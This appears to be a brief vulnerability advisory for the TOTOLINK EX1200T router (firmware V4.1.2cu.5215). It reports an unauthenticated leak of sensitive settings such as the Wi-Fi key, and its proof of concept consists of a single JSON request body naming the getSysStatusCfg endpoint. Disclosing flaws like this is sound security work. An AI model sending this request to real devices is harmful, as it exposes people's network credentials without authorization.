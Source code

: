 # TOTOLINK EX1200T LEAK

## Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

The attacker can get the sensitive information (wifikey, etc.) without authorization.

## PoC

![image-20211021152720178](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211021152720178.png)

```
{"topicurl":"setting/getSysStatusCfg"}
```

